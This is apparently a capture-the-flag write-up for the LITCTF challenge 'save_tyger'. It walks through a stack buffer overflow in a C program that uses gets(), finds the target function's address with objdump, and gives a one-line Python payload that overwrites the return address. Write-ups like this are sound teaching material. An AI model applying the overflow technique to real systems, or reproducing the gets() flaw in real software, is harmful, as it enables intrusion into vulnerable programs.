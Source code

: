 # pwn/save_tyger

## Challenge

Tyger needs your help again.
<br>
Connect with `nc litctf.live 31788`

[save_tyger2](https://drive.google.com/uc?export=download&id=1qCSTo01YjzrncT0SZGOTouC4egY_q-PX)

## Solution

Like last time, we're given a C file (and an executable):
```c
#include <stdlib.h>
#include <stdio.h>

void cell(){
	printf("Thank god you got him out of this cockroach-infested cell!\n");
	FILE *f = fopen("flag.txt", "r");
	char flag[64];
	if(f == NULL){
		printf("Something went wrong. Please let Eggag know.\n");
		exit(1);
	}
	fgets(flag, 64, f);
	puts(flag);
    exit(0);
}

int main(){
	char buf[32];
	printf("NOOOO, THEY TOOK HIM AGAIN!\n");
	printf("Please help us get him out or there is no way we will be able to prepare LIT :sadness:\n");
	gets(buf);
}
```
This is another classic problem.

We need to somehow call `cell()`. Note the usage of `gets` for input, which lets us write arbitrarily many characters, so we can overflow `buf` into the return address. We now look in the executable (`objdump -d`) for the address of `cell()`, and where `buf` is stored:
```
0000000000401162 <cell>:
...
00000000004011cd <main>:
  4011cd:	55                   	push   %rbp
  4011ce:	48 89 e5             	mov    %rsp,%rbp
  4011d1:	48 83 ec 20          	sub    $0x20,%rsp
  4011d5:	bf 7d 20 40 00       	mov    $0x40207d,%edi
  4011da:	e8 51 fe ff ff       	callq  401030 <puts@plt>
  4011df:	bf a0 20 40 00       	mov    $0x4020a0,%edi
  4011e4:	e8 47 fe ff ff       	callq  401030 <puts@plt>
  4011e9:	48 8d 45 e0          	lea    -0x20(%rbp),%rax <- buf
  4011ed:	48 89 c7             	mov    %rax,%rdi
  4011f0:	b8 00 00 00 00       	mov    $0x0,%eax
  4011f5:	e8 56 fe ff ff       	callq  401050 <gets@plt>
```
`cell()` is at `0x0000000000401162` (pointers are 64-bit, or 8 bytes). `buf` is at `%rbp - 0x20`.
That means we need `0x20 = `32 bytes to reach `%rbp`, which points to the address of the previous stack frame, which is 8 bytes long.
Past that is the return address location, so we need to skip 40 bytes total.
So we need to send 40 junk characters, and then `0x0000000000401162`:
```py
print("a"*40+"6211400000000000".decode("hex"))
```
Note the leading/trailing 0s are important, to overwrite the entirety of the original address.

Pipe the python output into the netcat command, and we get our flag.

## Flag

`LITCTF{w3_w0nt_l3t_th3m_t4k3_tyg3r_3v3r_4gain}`
